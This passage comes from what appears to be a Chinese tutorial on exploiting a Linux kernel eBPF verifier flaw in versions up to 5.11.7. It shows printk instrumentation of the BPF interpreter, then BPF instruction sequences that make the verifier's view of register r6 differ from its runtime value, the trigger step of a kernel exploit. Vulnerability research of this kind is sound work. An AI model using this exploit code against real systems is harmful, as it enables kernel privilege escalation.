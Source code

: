 **runtime调试**：如果BPF通过了`verifier`检查，如何获取BPF程序运行时的信息呢？答案是插桩。`ALU Sanitation`也是运行时检查指令执行情况的保护机制，可以通过插桩观察BPF指令是否已经改变。这里需要了解一个编译选项，编译时设置`CONFIG_BPF_JIT`，则BPF程序在verifier验证后是JIT及时编译的；如果不设置该选项，则采用eBPF解释器来解码并执行BPF程序，代码位于`kernel/bpf/core.c:___bpf_prog_run()`。

`regs`指向寄存器值，`insn`指向指令。为了获取每条指令执行时的寄存器状态，可以关闭`CONFIG_BPF_JIT`选项并插入`printk`语句。示例如下：

```c
static u64 ___bpf_prog_run(u64 *regs, const struct bpf_insn *insn)
{
...
    int lol = 0;
   
   // Check the first instruction to match the first instruction of  
   // the target eBPF program to debug, so output isn't printed for  
   // every eBPF program that is ran. 只打印部分指令的信息
    if(insn->code == 0xb7)
    {
        lol = 1;
    }


select_insn:
        if(lol)
        {
            printk("instruction is: %0x\n", insn->code);
            printk("r0: %llx, r1: %llx, r2: %llx\n", regs[0], 
            regs[1], regs[2]);
            ...
        }
        goto *jumptable[insn->code];
...
}
```



---

## 2. 漏洞利用 Linux v5.11.7 及以前版本

**特点**：我们采用`Linux v5.11` 版本的内核进行测试，特点是不需要绕过一种ALU Sanitation，之后我们会详细介绍。

**总目标**：构造 `r6` 寄存器，使得 `verifier` 认为 `r6` 等于0，但实际执行时等于1。

#### 2-1 触发漏洞

首先，我们需要构造出两个寄存器的值状态，分别为`var_off = {mask = 0xFFFFFFFF00000000; value = 0x1}` 和 `var_off = {mask = 0x0; value = 0x100000002}`。然后触发漏洞，得到 `r6` 的 `u32_max_value = 0 < u32_min_value = 1`。

**注意**：实际从map传入的 `r5 = r6 = 0`。

```c
// (1) 构造 r6: var_off = {mask = 0xFFFFFFFF00000000; value = 0x1}
        BPF_MAP_GET(0, BPF_REG_5),            // (79) r5 = *(u64 *)(r0 +0) 从MAP传入值，这样其 mask=0xffffffffffffffff
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_5),      // (bf) r6 = r5

        BPF_LD_IMM64(BPF_REG_2, 0xFFFFFFFF),      // (18) r2 = 0xffffffff
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),      // (67) r2 <<= 32     0xFFFFFFFF00000000
        BPF_ALU64_REG(BPF_AND, BPF_REG_6, BPF_REG_2), // (5f) r6 &= r2  高32位unknown, 低32位known为0
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 1),     // (07) r6 += 1  {mask = 0xFFFFFFFF00000000, value = 0x1}

// (2) 构造 r2: var_off = {mask = 0x0; value = 0x100000002}
        BPF_LD_IMM64(BPF_REG_2, 0x1),         // (18) r2 = 0x1
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),      // (67) r2 <<= 32       0x10000 0000
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 2),     // (07) r2 += 2  {mask = 0x0; value = 0x100000002}
```
